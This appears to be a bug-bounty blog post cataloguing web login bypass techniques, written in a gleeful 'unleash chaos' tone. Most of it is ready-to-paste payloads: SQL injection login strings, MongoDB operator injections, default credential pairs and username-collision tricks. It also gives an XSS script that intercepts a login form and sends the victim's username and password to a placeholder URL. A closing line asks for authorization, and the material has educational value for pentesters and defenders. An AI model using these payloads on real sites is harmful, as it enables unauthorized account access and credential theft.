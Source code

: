 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://i.ytimg.com/vi/9wNJE2zaEP8/maxresdefault.jpg"> Web Login Bypassing Techniques
date: 2023-05-29 00:00:02 +730
categories: [Resources, bugbounty]
tags: [bypass,bugbounty,web-login-bypass] # TAG names should always be lowercase
mermaid: true

---
```




Greetings, fellow bug bounty hunters! Are you ready to embark on a wild adventure of bypassing web login systems? Buckle up and prepare to witness some mind-boggling techniques that will make you go "Woah!" Let's dive into the chaos and unleash our hacking skills! 💥

# Classification of bypassing techniques: 😎🚀
```mermaid
flowchart LR
    A(Web Login Bypassing Techniques)
    B(SQL Injection)
    C(NoSQL Injection)
    D(Operator-Based Attacks)
    E(Default Credentials)
    F(Wildcard Brute Force)
    G(Registration as Existing User)

    A -->|Explore| B
    A -->|Unleash| C
    A -->|Manipulate| D
    A -->|Break Monotony| E
    A -->|Unleash Chaos| F
    A -->|Add Twist| G


```




## 1. SQL Injection: The Art of Database Mischief 🎭

Injecting SQL queries into login fields is our secret weapon! Here's a taste of the madness we can create:

```sql
- Microsoft, Oracle, PostgreSQL:
    - admin' or '1'='1
    - admin'--
    - admin' or 1=1--
    - admin' or '1'='1'--
    - admin}" or 1=1--

- MySQL:
    - admin'-- -
    - admin'#
    - admin' or 1=1#
    - admin' or 1=1-- -
    - admin' or '1'='1'-- -
    - admin' or '1'='1'#

- Let the chaos reign! 💥
```

[Get the whole cheet-sheet](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)


## 2. NoSQL Injection: Unleashing Madness in NoSQL Realm 🐆

Who said NoSQL databases are immune to our hacking shenanigans? Brace yourselves for some NoSQL injection payloads:


```
- Mongo:

    - admin' || 1==1//
    - admin' || 1==1%00
    - admin' || '1==1
    - admin' || '1'=='1'
```


## 3. Operator-Based Attacks: Dancing with Operators 💃🎩

Operators hold the key to our login bypass extravaganza. Get ready to manipulate and conquer with these operator-based payloads:

```bash
- $ne (Not equal):
    - username[$ne]=xyz&password[$ne]=xyz

- $regex (Regular expressions):
    - username[$regex]=.*&password[$regex]=.*
    - username[$regex]=^xyz&password[$regex]=^xyz

- $exists (Exists in the database):
    - username[$exists]=true&password[$exists]=true

- $nin (Not include):
    - username[$nin][admin]=admin&password[$ne]=xyz

- $gt (Greater than) and $lt (Lower than):
    - username[$gt]=s&password[$gt]=s
    - username[$lt]=s&password[$lt]=s

- The operator symphony begins! 🎩🎶
```

## 4. Default Credentials: Breaking the "Admin:Admin" Monotony 🥱💤


![s](https://pbs.twimg.com/media/FA6ElwUXoAEZHYz.jpg){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Yawn! Default credentials are a bug bounty hunter's best friend. Let's shake things up with some unexpected username/password combos:

```bash
- admin:admin
- admin:password
- admin:password1
- admin:password123
- administrator:password
- administrator:password1
- administrator:password123

- Time to expose those default culprits! 😈🔑
```
[Default-passwords](https://datarecovery.com/rd/default-passwords/)


## 5. Wildcard Brute Force: Unleashing Chaos with Wildcard Magic! 🃏🔥

When wildcards (*) are allowed, the real fun begins! Brace yourselves for the epic wildcard brute force:

```bash
- username = *
- password

 = *

- Turbo Intruder in Burp Suite will be your trusty sidekick for this madness! 💪🦸‍♀️
```

## 6. Registration as Existing User: Adding a Twist to the Game 🎭🔑

Registering as an existing user? Let's spice it up with these variations:

- Register with the same username:
    - `admin`
    - `admin%00`
    - `(space)admin`

Go ahead and test these payloads using the registration form on the target website. Time to make the login system question its existence! 😜


>Some Additional tactics to bypaasssss!
{: .prompt-info }

## 7. CSRF via XSS and see the victims credentials. This is the CSRF payload for it 
```js
<script>
function intercept() {
 
 var user = document.forms[0].elements[0].value;
 var pass = document.forms[0].elements[1].value;
 
 
 var xhr = new XMLHttpRequest();
 
 xhr.open("GET", "https://your-target-url?username/email="+user+"&password="+pass)
 xhr.send();
return false;
 }
 document.forms[0].onsubmit = intercept;
 
</script>
```

## 8. By Manipulating the Response

This method mainly based on Response Status code manipulation and Response Body manipulation. 
- First of all make an account on your target 
- Login with correct credentials and intercepts request in burp suite and analyze the response 
- Try to login with wrong credentials and manipulate the response as you see it with your correct credentials like

```
403 Forbidden  
<redacted>  
{"error":true, "message":"Invalid Token"}
```
<br>

```
200 OK  
<redacted>  
{"success":true}
```
## 9. By Removing Parameter in Request

When you enter wrong credentials the site shows error like username and password is incorrect/does not match, password is incorrect for this username etc,

 - [ ] First you intercept the request and remove the `password parameter` in the request and `forward` the request. 
 - [ ] Then the server sees that the username is available and logs you in to the site. This problem occurs when the server does not analyze the request properly.

![1_gNdDHP3A232KT9R4BA1ERw](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/7eb0b6bf-cfa5-4451-b294-d1a8acfb40a5)
![2](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/38e32544-da62-4851-810d-9a50f826804e)

<br>
<br>



> **Important Note:** While these techniques can be used for legitimate security testing, always ensure that you have proper authorization and permission before attempting any login bypass or brute force attacks. Stay ethical, my friends! 🕵️‍♀️🔒
{: .prompt-tip }

&nbsp;
<br><br>
[Download Login Bypass Payload](https://github.com/thelocalh0st/thelocalh0st.github.io/blob/main/assets/uploads/login-bypass.txt.txt)

![end](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
